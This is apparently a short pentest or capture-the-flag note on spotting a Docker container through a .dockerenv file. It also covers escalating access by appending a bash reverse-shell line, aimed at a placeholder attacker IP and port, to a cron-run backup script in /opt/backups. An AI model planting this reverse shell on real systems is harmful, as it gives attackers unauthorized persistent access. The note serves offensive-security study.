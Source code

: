 - If we find a `.dockerenv` file in the root directory, we are running inside a docker container

![](./img/Pasted%20image%2020240215214817.png)

- If we find a `.sh` on the `/opt/backups` directory like a backup script that might be running a cron job, we can try to write a reverse shell to it:

```shell
echo "bash -i >& /dev/tcp/IP_ATTCK/PORT 0>&1" >> backup.sh
```